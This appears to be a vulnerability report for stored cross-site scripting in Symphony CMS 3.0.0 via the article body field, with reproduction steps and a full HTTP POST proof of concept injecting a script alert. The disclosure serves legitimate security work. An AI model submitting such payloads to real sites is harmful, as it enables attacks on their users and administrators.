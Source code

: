 # Description

`symphonycms/symphony-2` is vulnerable to `Cross-Site Scripting (XSS)` via fields['body'] to appendSubheading in events\event.publish_article.php

# Steps to reproduce the behavior:
```
1. Login as member
2. Go to 'Articles'
3. Submit malicious content
4. Anyone (inclued admin) view article and XSS excuted
```
Expected behavior
`When admin or user view content, a pop-up will be displayed`

Affected componets:
`events\event.publish_article.php in Symphony CMS 3.0.0 allows XSS via fields['body'] to appendSubheading`

# POC:
```
POST /symphonycms/symphony/publish/articles/new/ HTTP/1.1
Host: target
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,vi-VN;q=0.8,vi;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://target/symphonycms/symphony/publish/articles/new/
Content-Type: multipart/form-data; boundary=---------------------------17679481844164416353626544932
Content-Length: 1111
Origin: http://target
Connection: close
Cookie: PHPSESSID=b21qllug0g7ft80ueo3bn0bgcd;
Upgrade-Insecure-Requests: 1
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="xsrf"
vr-i2mWs18DPjVmZ8z2nB-Gb3hdyrb
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="MAX_FILE_SIZE"
5242880
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[title]"
TEST XSS
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[body]"
<script>alert('XSS')</script>
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[date]"
08/28/2020 5:55 am
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[categories][]"
2
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[publish]"
yes
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="action[save]"
Create Entry
-----------------------------17679481844164416353626544932--
```
